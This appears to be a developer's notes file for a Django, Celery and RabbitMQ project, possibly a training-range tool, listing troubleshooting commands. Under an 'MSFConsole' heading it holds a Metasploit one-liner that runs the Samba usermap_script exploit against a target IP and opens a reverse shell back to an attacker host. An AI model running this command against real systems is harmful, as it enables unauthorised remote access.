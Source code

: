 
##################################################################################################
#                                              Issues                                            #
##################################################################################################

If Celery Tasks arent showing up in django_celery_results, check to see if beats is running properly. this can be achieved with:

sudo docker-compose exec celery celery -A core beat -l info

If it gives an error about celerybeat.pid file already existing. Delete the old one, it has fixed the issue for me in the past.



## pip install issues with SSL/TLS

pip install --upgrade pip --trusted-host pypi.org --trusted-host files.pythonhosted.org

## issues with potentially outdated pip packages

pip3 list --outdated --format=freeze | grep -v '^\-e' | cut -d = -f 1 | xargs -n1 pip3 install -U

##################################################################################################
#                                            RabbitMQ                                            #
##################################################################################################
RabbitMQ

//  /galaxy/tooling
sudo python3 alt-rabbitmq-work-queue-worker.py

sudo python3 alt-rabbitmq-work-queue.py 192.168.1.1 Battleroom-11


##################################################################################################
#                                           MSFConsole                                           #
##################################################################################################

 msfconsole -x "use exploit/multi/samba/usermap_script; set RHOST 172.16.194.172; set PAYLOAD cmd/unix/reverse; set LHOST 172.16.194.163; run"

##################################################################################################
#                                   Clear Migrations Cache                                       #
##################################################################################################

find . -path "*/migrations/*.py" -not -name "__init__.py" -delete
find . -path "*/migrations/*.pyc"  -delete
